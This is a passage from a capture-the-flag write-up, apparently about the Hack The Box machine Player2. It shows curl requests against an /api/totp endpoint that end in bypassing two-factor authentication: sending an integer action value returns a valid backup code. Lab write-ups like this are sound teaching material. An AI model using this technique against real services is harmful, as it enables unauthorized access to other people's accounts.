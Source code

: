 It still returns an error:

```

root@kali# curl -s http://product.player2.htb/api/totp
{"error":"Cannot GET \/"}

```

Changing the request to a POST changed the error:

```

root@kali# curl -s -X POST http://product.player2.htb/api/totp
{"error":"Invalid Session"}

```

I grabbed my cookie from Firefox where I had just logged in and added that:

```

root@kali# curl -s -X POST http://product.player2.htb/api/totp -H "Cookie: PHPSESSID=o91scokidvotca1i0tolpdmjp9"
{"error":"Invalid action"}

```

Note, if I try to send a OTP in Firefox, the cookie no longer works to get access to the API. The server must think this session is in the state after successful creds but then set it back to invalid on any failed OTP.

I tried adding `/action/` to the url, but that caused a 500 error. So I tried sending `action` as a parameter name. With any other parameter, it returns `Invalid Action`:

```

root@kali# curl -s -X POST http://product.player2.htb/api/totp -H "Cookie: PHPSESSID=49fej68t3k9vlr2ga16prnbsac" -d '{"aaaa":"code"}'
{"error":"Invalid action"}

```

But with `action`, it returns `Missing parameters`:

```

root@kali# curl -s -X POST http://product.player2.htb/api/totp -H "Cookie: PHPSESSID=49fej68t3k9vlr2ga16prnbsac" -d '{"action":"code"}'
{"error":"Missing parameters"}

```

It’s not totally clear to me how the box author expected us to make this next leap. I got lucky in guessing around, I tried `0` (as an integer, not a string) and got a match:

```

root@kali# curl -s -X POST http://product.player2.htb/api/totp -H "Cookie: PHPSESSID=o91scokidvotca1i0tolpdmjp9" -H 'Content-Type:application/json' -d '{"action":0}'
{"user":"0xdf","code":"91231238385454"}

```
